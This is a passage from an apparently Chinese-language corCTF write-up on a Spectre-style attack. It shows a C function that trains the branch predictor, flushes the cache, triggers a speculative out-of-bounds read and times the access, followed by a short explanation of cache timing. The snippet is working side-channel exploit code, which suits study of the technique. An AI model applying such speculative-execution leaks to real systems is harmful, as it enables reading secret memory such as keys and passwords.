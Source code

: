 ```c
static inline uint64_t spectre(char *buffer, off_t offset, uint64_t idx, uint64_t train, uint64_t bound) {
    // ============== [4] ==============
    for (int i = 0; i < strlen(tlb_smart_write) /* 15 */; i++) {
        // access &buf[0x80], &buf[0x1080], ...
        corctf_read(buffer, i);
    }
    
    // ============== [5] ==============
    for (int i = 0; i < train; i++){
        corctf_read(buffer, 0xd);
    }

    // ============== [6] ==============
    flush_buffer((void *)buffer, MAP_SIZE);
    asm volatile ("mfence;");
    
    // ============== [7] ==============
    corctf_read(buffer, idx);
    
    // ============== [8] ==============
    return get_time(buffer, offset);
}
```

預測執行存取到的位置會被載入到 cache，下次存取時就能快速取得資料，也就代表**存取時間較短**。文章 [TLB and cache](https://codeyarns.com/tech/2020-03-29-tlb-and-cache.html#gsc.tab=0) 有一張圖清楚地呈現存取 virtual address 時硬體的執行流程。

<img src="/assets/image-20240809191801975.png" alt="image-20240809191801975" style="display: block; margin-left: auto; margin-right: auto; zoom:50%;" />
